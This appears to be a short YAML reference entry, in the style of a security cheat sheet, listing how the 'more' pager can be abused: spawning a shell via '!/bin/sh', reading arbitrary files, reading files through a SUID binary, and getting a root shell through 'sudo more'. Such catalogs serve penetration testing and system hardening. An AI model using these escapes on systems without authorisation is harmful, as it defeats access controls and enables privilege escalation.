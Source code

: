 ```yaml
---
functions:
  shell:
    - code: |
        TERM= more /etc/profile
        !/bin/sh
  file-read:
    - code: more file_to_read
  suid:
    - code: ./more file_to_read
  sudo:
    - code: |
        TERM= sudo more /etc/profile
        !/bin/sh
---
```

